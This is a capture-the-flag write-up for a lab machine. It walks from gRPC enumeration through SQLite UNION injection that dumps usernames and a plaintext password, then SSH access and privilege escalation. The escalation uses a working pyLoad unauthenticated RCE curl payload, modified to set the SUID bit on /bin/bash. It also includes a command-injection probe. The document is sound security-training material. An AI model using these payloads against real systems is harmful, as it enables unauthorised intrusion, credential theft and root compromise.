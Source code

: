 ### IP
`10.10.11.214`

# Reconnaissance

### nmap

`sudo nmap -sC -sV `
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.93%I=7%D=5/27%Time=6471C184%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Based on some of the fingerprint strings ("DNSStatusRequestTCP", "Kerberos", "SMBProgNeg", "X11Probe") and the port of 50051, this looks like it is a gRPC app.
	When we try to connect with `nc 10.10.11.214 50051` we get some binary data back and not much else

# Exploitation

### grpc

I tried a couple terminal-based tools for interacting with gRPC, but none of them were nearly as easy as [grpcui]

We need to use the `plaintext` switch since the traffic isn't over tls. 

`grpcui -plaintext 10.10.11.214:50051`

Once we're connected, we can see a service called SimpleApp that has three methods:
	- getInfo
	- LoginUser
	- CreateUser


We can create a user with any credentials and then we can send a request to LoginUser with the new credentials, which gives us an id and a jwt as a response.

When we send that ID to getInfo, it asks for a token, so we can simply provide the one it gave us for that ID. We get the following:

```json
{
  "message": "Will update soon."
}
```

From here, I tried to check for command injeciton by changing the id field to:

```bash
884 ; ping 10.10.14.67
```

I didn't get a response, but I did get the following error:

```python
Unexpected <class 'sqlite3.Warning'>: You can only execute one statement at a time.
```

From this, we know that gRPC is querying an sqlite database in the back, so we can try SQL injection.



### SQL injection

Almost all of my payloads were based on [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) PayloadAllTheThings cheatsheet.

I tried variations of including/excluding a single quote and a comment at the end of the query.

The following are payloads and responses that worked for me (in the order that I used them):


```sql
884 union select group_concat(sqlite_version())
```
```json
{
  "message": "3.31.1"
}
```

```sql
884 union select group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite%'
```
```json
{
  "message": "accounts,messages"
}
```

```sql
884 union select sql from sqlite_master where type!='meta' and sql not null and name='accounts'
```

```json
{
  "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
}
```

```sql
884 union select group_concat(username) from accounts
```

```json
{
  "message": "admin,sau"
}
```


```sql
884 union select password from accounts where username='sau'
```
```
{
  "message": "HereIsYourPassWord1431"
}
```

# SSH

`ssh sau@10.10.11.214`

We can ssh in with the credentials we found in the database and we get the user flag.

# Privilege Escalation

Interestingly, if we run `ss -ntlp`, we can see a website listening on port 8000 and is running as root, but is only accessible by localhost.

To make it easier for us to view the website, we can port-forward it over to us:

```bash
ssh -L 8000:localhost:8000 sau@10.10.11.214
```

It seems that a website called `pyload` is running on port 8000 which, upon some research, seems to have an unauthenticated remote code execution vulnerability present. 

POC [here](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)

The original payload is shown below and maked a file called `/tmp/pwned` as a proof-of-concept.
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

We can modify the script to make it run `chmod +s /bin/bash` which will make it very easy for us to escalate privileges. I chose this, as it has far fewer characters than reverse shells and similar. 

To modify the payload we have to:
1. url-decode the original payload
2. replace their command with ours
3. url-encode **every** character. online tool [here](https://onlinetexttools.com/url-encode-text)
4. make sure to remove or update the `Content-Length` header from the original POC
5. send the new payload

```bash
curl -i -s -k -X $'POST'     -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded'  --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6D%70%6F%72%74%20%6F%73%3B%6F%73%2E%73%79%73%74%65%6D%28%22%63%68%6D%6F%64%20%2B%73%20%2F%62%69%6E%2F%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'
```

This command responds with a 500 code, but we can see that the permissions of bash have changed.

We can now run `bash -p` to get a root shell and get the root flag.
